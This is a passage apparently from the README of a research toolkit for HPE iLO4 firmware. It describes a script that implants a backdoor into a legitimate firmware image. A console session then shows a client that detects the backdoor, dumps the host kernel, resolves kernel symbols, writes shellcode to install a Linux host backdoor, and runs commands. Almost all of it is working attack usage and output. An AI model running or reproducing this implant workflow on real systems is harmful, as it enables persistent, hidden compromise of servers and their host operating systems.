 

The ``insert_backdoor.sh`` script can be run on a legitimate firmware file to

add a backdoor in the webserver module. The backdoor can then be used using

the ``backdoor_client.py`` script.



::



    >./insert_backdoor.sh ilo4_250.bin

    [...]

    [+] Firmware ready to be flashed



    >python backdoor_client.py 192.168.42.78

    [+] iLO Backdoor found

    [-] Linux Backdoor not detected

    [...]

    >>> ib.install_linux_backdoor()

    [*] Dumping kernel...

    [+] Dumped 1000000 bytes!

    [+] Found syscall table @0xffffffff81a001c0

    [+] Found sys_read @0xffffffff8121e510

    [+] Found call_usermodehelper @0xffffffff81098520

    [+] Found serial8250_do_pm @0xffffffff81528760

    [+] Found kthread_create_on_node @0xffffffff810a2000

    [+] Found wake_up_process @0xffffffff810ad860

    [+] Found __kmalloc @0xffffffff811f8c50

    [+] Found slow_virt_to_phys @0xffffffff8106c6a0

    [+] Found msleep @0xffffffff810f0050

    [+] Found strcat @0xffffffff8140c9c0

    [+] Found kernel_read_file_from_path @0xffffffff812236e0

    [+] Found vfree @0xffffffff811d7f90

    [+] Shellcode written

    [+] iLO Backdoor found

    [+] Linux Backdoor found

    >>> ib.cmd("/usr/bin/id")
